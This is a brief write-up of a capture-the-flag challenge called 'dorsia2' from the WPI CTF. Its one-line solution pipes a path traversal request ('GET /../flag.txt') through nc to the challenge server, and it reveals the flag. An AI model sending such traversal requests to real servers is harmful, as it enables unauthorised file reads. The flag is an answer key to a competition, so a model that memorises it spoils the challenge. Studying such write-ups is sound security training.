

#### Challenge:



http://dorsia2.wpictf.xyz:31337/index.html or `31338` or `31339`

---

#### Solution:

```bash
echo 'GET /../flag.txt' | nc dorsia2.wpictf.xyz 31337
```

---

<details><summary>FLAG:</summary>

```
WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}
```

</details>
<br/>
